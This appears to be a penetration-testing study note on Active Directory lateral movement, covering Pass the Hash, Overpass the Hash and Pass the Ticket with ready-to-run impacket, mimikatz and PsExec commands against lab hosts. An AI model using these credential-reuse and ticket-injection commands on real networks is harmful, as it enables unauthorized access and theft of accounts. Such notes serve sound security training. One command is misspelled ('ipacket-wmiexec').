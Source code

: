 ## Pass The Hash
- If servers or services use NTLM authentication, we can use a users NTLM hash to authenticate instead of the password
- Similar to PsExec, there are prerequisites that have to be met
	- SMB connection has to be open
	- File and Printer Sharing has to be enabled
	- The ADMIN$ share needs to available
	- User has to be in the local Administrators group on the target
- We can use `impacket-wmiexec` or `nxc` to get code execution
```zsh
ipacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

##  Overpass The Hash
- With overpass the hash we can use NTLM hashes to get Kerberos Ticket Granting Ticket (TGT) which we can then use to get a Ticket Granting Service (TGS)
- We can use `mimikatz` to turn a NTLM hash into a Kerberos Ticket Granting Ticket using `sekurlsa::pth`
```powershell
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
- In the resulting `powershell` session, we could now for example use `net use \\fileshare` to get a TGS or use other tools such as `PsExec.exe` that rely on Kerberos authentication (Since we now have a TGT that was converted from our NTLM Hash)
```powershell
net use \\fileshare
klist
.\PsExec.exe \\fileshare cmd
```

## Pass The Ticket
- While we can only use a TGT on the machine it was created for, we can export and use a TGS from elsewhere on the network to authenticate against a service
- We can use `mimikatz` to export existing TGT/TGS tickets with `sekurlsa::tickets /export`. This will export found tickets to individual `*.kirbi` files in the directory that `mimikatz` was run from
```powershell
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export
```
- We can then use the appropriate ticket and inject it using `kerberos:ptt` from `mimikatz`
> [!WARNING]
> As with `kerberos::golden` do not use `token::elevate` as the ticket would get injection to the NTAUTHORITY\SYSTEM session
```powershell
PS C:\Tools> dir *.kirbi


    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

==================MIMIKATZ AFTER===================

kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
- After that, we can verify with `klist` if the ticket has been injected properly
